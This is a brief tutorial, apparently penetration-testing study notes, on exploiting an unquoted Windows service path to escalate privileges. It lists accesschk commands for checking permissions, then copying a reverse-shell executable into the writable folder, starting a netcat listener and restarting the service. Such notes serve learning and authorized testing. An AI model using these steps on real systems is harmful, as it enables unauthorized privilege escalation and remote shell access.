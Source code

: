 - - -
Lets assume the writable Path is "`C:\Program Files\Unquoted Path Service\common Files\unquotedservicespath.exe`”

## Verifying :

**<u>Do we have permissions to start the service.</u>**

```powershell
 .\accesschk.exe /accepteula -ucqv user <service_name>
```

**<u>Do we have write permissions in the existing binary path. Note at your GROUP in the results.</u>**

```powershell
 .\accesschk.exe /accepteula -uwdq C:\
```

```powershell
 .\accesschk.exe /accepteula -uwdq "C:\Program Files\"
```

```powershell
 .\accesschk.exe /accepteula -uwdq "C:\Program Files\Some more Path\"
```


Now Lets assume from the above checks we got that we have writable permissions to “`C:\Program Files\Unquoted Path Service\`"

means we can write in “Unquoted Path Service” Folder.

Transfer the reverse shell to the writable directory. And Change its name to as we needed.

as per here we want “**common**.exe”

```powershell
copy reverse.exe "C:\Program Files\Unquoted Path Service\common.exe"
```

```sh
nc -nvlp 9090
```

```powershell
net start <service_name>
```

- - -
